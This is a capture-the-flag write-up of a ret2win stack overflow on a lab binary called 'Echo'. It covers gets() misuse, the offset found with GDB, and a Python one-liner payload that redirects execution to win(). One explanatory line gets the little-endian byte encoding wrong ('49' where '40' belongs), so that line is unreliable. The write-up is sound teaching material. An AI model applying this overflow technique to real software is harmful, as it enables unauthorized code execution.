


# Challenge

**Echo** is an example of [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) exploit based on buffer overflow in the program.
It uses an unsafe form of `gets()` function, which keeps buffering user input until it finds a line ending symbol (`\n`).

# Solution

## Analysis

Using [Ghidra](https://ghidra-sre.org) to disassemble the provided binary first. Notice the `win()` function, which prints the contents of `flag.txt`. However, there is no call to this function in the program. The goal of this challenge is to trick the program into calling `win()` function.

 

In `main()`, the destination buffer argument to `gets()` is an array of `char` with length of 128. As mentioned above, `gets()` keeps reading from standard input until it finds a line ending symbol ('\n' or `0x0A` ASCII code point). If the user input exceeds 128 characters, it will overflow the allocated memory space. Here, the buffer is a **local** variable, so it is placed on stack. By overflowing the buffer, an attacker may modify the stack content, including *return address* for `main()`. By changing it to the address of `win()`, the attacker will capture the flag.

One important condition for the success of such attack is to reliably determine the address of `win()`. In this case, the binary is not a Position-Independent Executable (PIE), which means that address of `win()` does not change between executions. It will always be `0x0000000000401216`, as shown below.

```
% file ./echo
./echo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ba71fb7825c88b04e13afe6dcc11ba9113394f12, for GNU/Linux 3.2.0, not stripped

% nm ./echo | grep win
0000000000401216 T win
```

## Exploit

Use GDB to determine the offset between the input buffer, and the return address. This will help to craft the payload.

Let's check the `main` disassembly and set breakpoints at key instructions as follows:
1. Entry to `main`. At this breakpoint, value of RSP is the address of stack entry, which contains the return address for `main()`.
2. Before call to `gets`. Per [x86-64 calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI), the first argument is stored in RSI register.

```
% gdb ./echo
<...>

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./echo...
(No debugging symbols found in ./echo)
(gdb) x/20i *main
   0x4012b7 <main>:     endbr64
   0x4012bb <main+4>:   push   %rbp
   0x4012bc <main+5>:   mov    %rsp,%rbp
   0x4012bf <main+8>:   add    $0xffffffffffffff80,%rsp
   0x4012c3 <main+12>:  mov    $0x0,%eax
   0x4012c8 <main+17>:  call   0x40128e <init>
   0x4012cd <main+22>:  lea    0xd94(%rip),%rax        # 0x402068
   0x4012d4 <main+29>:  mov    %rax,%rdi
   0x4012d7 <main+32>:  call   0x4010c0 <puts@plt>
   0x4012dc <main+37>:  lea    -0x80(%rbp),%rax
   0x4012e0 <main+41>:  mov    %rax,%rdi
   0x4012e3 <main+44>:  mov    $0x0,%eax
   0x4012e8 <main+49>:  call   0x4010f0 <gets@plt>
   0x4012ed <main+54>:  lea    -0x80(%rbp),%rax
   0x4012f1 <main+58>:  mov    %rax,%rdi
   0x4012f4 <main+61>:  call   0x4010c0 <puts@plt>
   0x4012f9 <main+66>:  mov    $0x0,%eax
   0x4012fe <main+71>:  leave
   0x4012ff <main+72>:  ret
   0x401300 <_fini>:    endbr64
(gdb) br *main
Breakpoint 1 at 0x4012b7
(gdb) br *main+49
Breakpoint 2 at 0x4012e8
(gdb) r
<...>

Breakpoint 1, 0x00000000004012b7 in main ()
(gdb) p/x $rsp
$1 = 0x7fffffffe0e8
(gdb) c
Continuing.
Give me some text and I'll echo it back to you:

Breakpoint 2, 0x00000000004012e8 in main ()
(gdb) p/x $rdi
$2 = 0x7fffffffe060
```

Subtracting `$2` from `$1` we get an offset of 136 bytes. The payload should include 136 random letters, followed by the target function address. Since x86 is little-endian, an address must be encoded "right-to-left" for byte input i.e. `0x0000000000401216 = 16 12 49 00 00 00 00 00`.

# Final

```
% python3 -c "import sys, struct; sys.stdout.buffer.write(b'a' * 136 + struct.pack('<Q', 0x0000000000401216))" | ./echo
Give me some text and I'll echo it back to you:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@
flag{myflag}
Segmentation fault (core dumped)
```
